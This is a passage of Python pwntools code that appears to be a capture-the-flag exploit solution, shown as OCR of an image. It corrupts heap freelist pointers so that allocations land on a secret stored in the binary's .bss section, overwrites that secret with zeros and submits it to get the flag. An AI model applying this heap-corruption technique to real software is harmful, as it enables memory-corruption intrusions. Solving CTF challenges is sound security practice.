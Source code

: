 ```python
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", secret)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    secret_p1 = elf.bss() + (0x12821 - 0x8)
    secret_p2 = elf.bss() + 0x12821

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret_p1))
    # raw_input("DEBUG")
    malloc(0, 0)
    malloc(0, 0)

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret_p2))
    # raw_input("DEBUG")
    malloc(0, 0)
    malloc(0, 0)

    payload = flat(0, 0)
    send_flag(payload)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```
